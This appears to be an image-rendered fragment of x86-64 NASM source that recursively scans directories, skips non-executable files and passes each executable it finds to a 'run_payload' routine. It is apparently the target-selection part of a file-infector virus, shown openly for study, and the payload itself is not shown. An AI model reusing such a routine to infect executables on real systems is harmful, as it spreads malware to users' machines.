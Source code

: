 ```nasm
	
	mov  QWORD [rbp-FD], rax ;Store fd in local var
loop0:
	mov  rdi, QWORD [rbp-FD]
	lea  rsi, [rbp-BUF]
	mov  rdx, BUF_SIZE
	call mfw_getdents
	
	test ax,ax
	jz   done		; 0 means we are done reading the folder
	js   loop0 		; <0 means error.... we just try again

	mov r9, rax		; Loop limit
	lea r8, [rbp-BUF] 	; Points to struct linux_dirent record
	xor r14,r14 		; Loop counter = 0

loop1:
	lea   rdi, [r8 + r14  + D_NAME] ; Offset to current dirent name
	
	;; Skip . and .. names
	;; ---------------------------
	cmp WORD [rdi], 0x002e
	je next
	cmp WORD [rdi], 0x2e2e
	jne check_file
	cmp BYTE [rdi+2], 0
	je next
	
	;; Check file type and permissions
check_file:	
	lea    rsi, [rdi]	    ; Par2 : name
	mov    rdi, [RBP - FD]  ; Par1 : fd
	lea    rdx, [RBP - ST]  ; Par3 : struct stat
	xor    rcx, rcx		    ; Par4 : flags
	call   mfw_newfstatat
	
	test   al,al
	js     next		; Silently skip this file on error. Likely Permission denied
	
	;; Check if it is a directory
	mov  eax, DWORD [rdx + ST_MODE]
	and  eax, 0q0170000
	cmp  eax, 0q0040000
	jz   scan_folder	; If it is a directory... scan recursively
	cmp  eax, 0q0100000 
	jnz  next               ; If it is not a regular file.... skip it
	
	;; If we got a regular file then let's check permissions
	mov  eax, DWORD [rdx + ST_MODE]
	and  eax, 0q00111	; Execution permisions
	jz   next		    ; If no execution permision set... skip the file
	jmp  run_payload	; Otherwise run the payload on it
	
scan_folder:
	;; Before the recursive call we need to store current state in the stack
	;; File descruptor and getents are already there. We just store the registers
	;; This way, we only use the memory when scanning a subfolder
	push  r8 		; Current getdents buffer
	push  r9		; Number of bytes in getents buffer
	push  r14       ; Current getendts buffer ofsset 

	call  mfw_select_target ; RDI and RSI already set to the right parameters
	;; Restore evertything and keep going
```